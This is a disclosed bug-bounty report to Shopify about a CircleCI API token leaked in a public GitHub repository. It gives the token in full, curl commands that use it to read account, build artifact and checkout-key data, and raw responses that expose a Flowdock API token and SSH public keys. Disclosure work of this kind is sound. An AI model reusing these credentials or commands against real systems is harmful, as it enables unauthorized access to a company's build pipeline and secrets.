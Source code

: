 # CircleCI token in github repo allows for access to sensitive build information

## Report Details
- **Report ID**: 858915
- **URL**: https://hackerone.com/reports/858915
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-04-24T22:54:41.420Z
- **Disclosed**: 2020-09-15T09:30:29.312Z

## Reporter
- **Username**: dwimmerlaik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
While looking through some Shopify Github repos I came across the following CircleCI token: `ca84774a88598f639b174d498c219163e04adbb2` in the   `js-buy-sdk` repo.

`curl https://circleci.com/api/v1.1/me?circle-token=ca84774a88598f639b174d498c219163e04adbb2` returns information about the user which confirms the token is valid. 

### Project and Build
I am able to view project and build information using the token, which is a potential source of more exposed information such as API keys for any integrated services, such as:

`"flowdock_api_token" : "7e6b75e2335d035c192c338b390ee9e5",`

I have also confirmed that I can list build artifacts for a given project, and that if the files were still available then I would be able to download them (however given they are stored in `/tmp` the time availble to do this is limited, and as such I was not able to find a file that still existed for me to download) 
```
curl -H'Circle-Token: ca84774a88598f639b174d498c219163e04adbb2' https://circleci.com/api/v1.1/project/github/Shopify/js-buy-sdk/1200/artifacts
[ {
  "path" : "/tmp/circle-junit.Thki57l/xunit/tests.xml",
  "pretty_path" : "$CIRCLE_TEST_REPORTS/xunit/tests.xml",
  "node_index" : 0,
  "url" : "https://1200-49018115-gh.circle-artifacts.com/0/tmp/circle-junit.Thki57l/xunit/tests.xml"
}, {
  "path" : "/tmp/circle-junit.97eTO3B/xunit/tests.xml",
  "pretty_path" : "$CIRCLE_TEST_REPORTS/xunit/tests.xml",
  "node_index" : 1,
  "url" : "https://1200-49018115-gh.circle-artifacts.com/1/tmp/circle-junit.97eTO3B/xunit/tests.xml"

curl -L -H'Circle-Token: ca84774a88598f639b174d498c219163e04adbb2' https://1200-49018115-gh.circle-artifacts.com/1/tmp/circle-junit.97eTO3B/xunit/tests.xml
This artifact is no longer available to download
```

### Accessing Keys
I am also able to access keys using this token, with the following responses from two different projects
```
curl https://circleci.com/api/v1.1/project/github/Shopify/u2/checkout-key?circle-token=ca84774a88598f639b174d498c219163e04adbb2

[ {
  "public_key" : "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpvB3DfDKTHA7FoYR7GCDX4KzvNZuDoYH6cyLm2MGahYHXQXYhD/f+tUfrQadkt/fzkNElftncXSFj6kgzj2UeAhG1uQnAkA/neaUxhohdE21WwV4FH31hq30TgcJqFu4EN5nqaoaceY6MJvmtT/n1z3yGaJ/o3XgOwkY2GmiAvHBm6RdIlW0PX5t7elm4O9E6pDEo/6MwiuhtSQE3QPNMVM0w5ImRsSukiya8j7sgY5hco3a3Vo67dzM69+JiifgEutnC3Xv4x3bp1SS2Mww7wUGMgCaVtKMoQhSoqlft8mIWxCaIwdKXMyT8JmFmh16uBqKYWjJI+hj0ZS/sAox3 \n",
  "type" : "github-user-key",
  "fingerprint" : "b3:8c:e5:2f:fd:b8:f9:f1:4b:73:8f:fb:94:ed:6d:66",
  "login" : "shopify-dep",
  "preferred" : true,
  "time" : "2016-03-18T20:15:11.599Z"
}, {
  "public_key" : "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCn5QuM7S1Rebg3A2P29L3fJL1vELVX2YKZEyZiIx4S9wnGQdsEq9AHZfUfhmG7ko+Yu8hU73nYEjhPozc4QWgjroAEtnnurCW4Ol/CEU7SYt0P5tv1sXweahNT0LiUY6nJcQMxYu2y4Zn4+F6gk80GIqk7sZKSOLXi58fZO99Gu4rx0YNDKyzmZMkXNlxnP6692Tkxap0ce9hbl3sABnuwB0/jqAnyvLKm8/Fp3jExZZnv2eipzaymJXwgRHthmqPpnkHoM8rft7FrlrEia9pZ0UrRcsXgOXz2eJuiKnbu9PNLXmxXtylzEsF9u+jghl+jHdo1rHxNkWI7OOLmVmE5 \n",
  "type" : "github-user-key",
  "fingerprint" : "52:aa:16:d3:5e:b1:c8:94:75:7a:90:93:0d:04:b5:a3",
  "login" : "sunblaze",
  "preferred" : false,
  "time" : "2015-11-02T18:00:32.192Z"
} ]
```

```
curl https://circleci.com/api/v1.1/project/github/Shopify/js-buy-sdk/checkout-key?circle-token=ca84774a88598f639b174d498c219163e04adbb2

[ {
  "public_key" : "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7umG5nXtN6YesRFIyn6wsSGRszZYlvVke+CUy5BqPKU2TpwV2fINS80pjBxroMeeiOFtTdvsxd+KuG7v+1oLA7osY2B4SEAhnWedY7biaP5TdYM1yh5QcimqEFUbykFmlsQPEk1vNqS1lHuHn9OGhmJy5Ak2+a3wVoyT8pIFVA0j/m5d3WFWP7TcLyK3H5Rf+jFqtO73oZwejuF6YnqZBP5eNxhaQ325zwpeUBj8+crcRtOXhrEY1ovuuqxRLWEmEsdmbbhm4chP8NMYoW33yizl50bokEXk1KvNR0w/jM+DGt0WCUnyd3kufjFZD223/Wd5ytPNxBaE5h+68gkIH \n",
  "type" : "github-user-key",
  "fingerprint" : "b5:09:e2:4e:28:2a:e5:af:26:6d:17:f1:79:86:c9:26",
  "login" : "shopify-dep",
  "preferred" : true,
  "time" : "2016-03-18T20:24:30.573Z"
} ]
```

## Impact

Using the CircleCI API docs (https://circleci.com/docs/api/#projects) we can see that an attacker could do a lot using this token. Including running or cancelling builds; viewing information about past builds; creating and deleting keys, and accessing build artifacts or environment variables.

I have verified that many of the `GET` requests work with this token, however, I haven't tested any `POST` requests since I obviously don't want to cause any problems by changing anything.

P.S. - I just selected *.shopify.com as the asset because it seemed most appropriate but I wasn't really sure what this issue might affect since it's a part of the VCS/CI pipeline

## Attachments
- build-artifacts.png
- keys.png
